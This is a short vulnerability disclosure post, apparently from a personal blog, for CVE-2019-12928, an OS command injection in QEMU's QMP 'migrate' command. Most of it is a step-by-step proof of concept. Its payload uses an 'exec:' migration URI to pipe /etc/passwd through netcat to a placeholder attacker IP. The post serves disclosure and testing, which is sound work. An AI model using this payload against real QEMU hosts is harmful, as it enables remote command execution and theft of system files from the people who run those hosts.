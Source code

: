 ```yaml
---
layout: post
title: "[CVE-2019-12928] QEMU Machine Protocol Migrate Command Execution"
comments: true
description: "QEMU Machine Protocol Migrate Command Execution"
keywords: "qemu, qmp, command execution"
---
```


The QMP `migrate` command in QEMU version 4.0.0 and earlier is vulnerable to OS command injection, which allows the remote attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU with `-qmp tcp:<ip_address>:1234,server,nowait`<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:<br>

```
{ "execute": "qmp_capabilities" }
{"return": {}}
{ "execute": "migrate", "arguments": { "uri": "exec:cat /etc/passwd | nc <attacker_ip> 9999" } }
{"return": {}}
```